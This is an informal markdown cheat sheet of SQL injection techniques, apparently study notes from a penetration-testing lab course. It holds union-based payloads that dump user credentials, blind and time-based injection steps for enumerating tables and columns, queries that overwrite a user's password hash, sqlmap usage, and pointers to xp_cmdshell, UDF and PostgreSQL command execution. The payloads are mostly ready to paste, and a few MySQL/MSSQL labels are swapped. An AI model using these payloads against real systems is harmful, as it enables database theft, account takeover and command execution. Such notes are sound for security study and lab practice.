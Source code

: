 # SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info
    ``` database(), user(), @@version ```

- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

- running mssql client in window box (local host) ``` sqlcmd -U {username} -P {password} -Q {query} ```

# Manual SQL exploit

## Login bypass
1. https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds
 
# Yes or no  (Time based)
- If condition correct will have delay e.g. ``` '; IF (1=2) WAITFOR DELAY '0:0:10';--  ```
- Using Count () = 1 to determine if have result return!
1. Check user table exist? 
   - MYSQL ``` select count(name) from sys.tables where name = 'users'  ```
   - MSSQL ``` SELECT COUNT(*) FROM information_schema.tables WHERE table_schema = DATABASE() AND table_name = 'users'; ```
2. Check column name 'user' in table 'users' ? 
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'user'  ``` 
   - MYSQL ``` SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = 'your_database_name' AND table_name = 'users' AND column_name = 'user'; ```
3. Check col name 'password' exist? --> if no clue then can use % character , then 1 letter by 1 letter test it e.g. now test pass% success then try passw%. To guess the result
   - MSSQL ``` select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'pass%'``` 
4. Stop testing until no more delay e.g. if ans = password_hash, password_hash% wont have delay!
5. Determine total columns 
   - MSSQL ``` (select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>3 ```
   - MYSQL ``` SELECT COUNT(*) > 3 FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users'; ```
6. Guess Username ( can use A% / B% / etc... to guess)
   - MSSQL ``` (select count(username) from users where username = 'butch')=1 ```
   - MYSQL ``` SELECT COUNT(*) = 1 FROM users WHERE username = 'butch'; ```
7. Update the password 
   - MSSQL ``` update users set password_hash = 'tacos123' where username = 'butch' ```
   - MYSQL ``` UPDATE users SET password_hash = 'tacos123' WHERE username = 'butch';```
8. Validate if can update!
9. Sometime not working caz those password is hashed and not match the application when check 
    ``` 
        echo -n 'tacos123' | md5sum
        echo -n 'tacos123' | sha1sum
        echo -n 'tacos123' | sha256sum 
    ```

# SQL Shellcode excution
## Manual shell
![alt text](image-1.png)

## Postgres RCE
- https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py


## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```

# MSSQL
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-blind-based 
- UNC Path useful

## Useful command
1. xp_cmdshell

# UDF (user definded function) command execution
- Check version if vuln this | Can work with SQLi 
- https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-udf-command-execution ![alt text](image-2.png)